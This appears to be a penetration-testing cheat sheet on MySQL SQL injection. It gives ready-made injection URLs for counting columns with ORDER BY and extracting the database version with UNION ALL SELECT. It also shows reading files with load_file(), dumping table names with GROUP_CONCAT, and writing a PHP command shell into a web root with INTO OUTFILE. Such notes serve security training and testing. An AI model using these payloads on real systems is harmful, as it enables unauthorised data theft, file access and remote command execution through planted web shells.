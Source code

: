 # MySQL Functions
This sheet serves as a list of functions to be leveraged during a successful MySQL SQL injection attack.
## ORDER BY
We can oftent use the SQL statement `ORDER BY` to gather how many columns the current database table has,
```
https://127.0.0.1/comments.php?id=1337 order by N
```
Keep increasing `N` in the above statment until we get an error, or instant HTTP request inthe case of a [Blind SQL Injection Attack](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/SQL%20Injection/sql-injection-blind.md).
## UNION ALL SELECT
The SQL statement `UNION ALL SELECT` can often be used after we get the column count to see which column we can injection nested statements and other data into. For instance, say that after we successfully perfomred an SQL Injection attack and got an `ORDER BY 7`, meaning `7` columns, we can then attempt the following to try to glean the database version by injecting a nested statement into one of the columns,
```
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT @@version,1,1,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,@@version,1,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,@@version,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,@@version,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,@@version,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,1,@@version,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,1,1,@@version
```
This can easily be automated by scripting the process using `curl`.
## LOAD_FILE()
Once we determine the column count and injectable parameter, we may be able to read files on the target file system using the MySQL `load_file()` function like so,
```
https://127.0.0.1/comments.php?id=1337 union all select 1,2,3,4,load_file("C:\users\username\Desktop\user.txt"),6,7
```
Becareful about how you use single and double quotes. We must know where the file resides on the file system before attmpting to read it. This also assumes that we can inject nested SQL statements on column `5`.
## INTO OUTFILE
We may also be able to write to a file using the SQL statement `INTO OUTFILE` like so,
```
https://127.0.0.1/comments.php?id=1337 union all select 1,2,3,4,"<?php echo system($_GET['cmd']); ?>",6 INTO OUTFILE 'C:\htdocs\webroot\shell.php',7
```
This assumes that we have nested injection working on the 5th and 6th columns of the table. This will create the PHP shell file if all goes well.
## GROUP CONCAT
Group concatenation of records can be achieved using the `GROUP_CONCAT` stored procedure in MySQL,
```
MariaDB [security]> select group_concat(distinct table_name separator ', ') from information_schema.tables where table_schema = 'security';
+--------------------------------------------------+
| group_concat(distinct table_name separator ', ') |
+--------------------------------------------------+
| emails, referers, uagents, users                 |
+--------------------------------------------------+
1 row in set (0.00 sec)

```
This way, we can acheive all records as a single string for simple SQL injection of a given column.
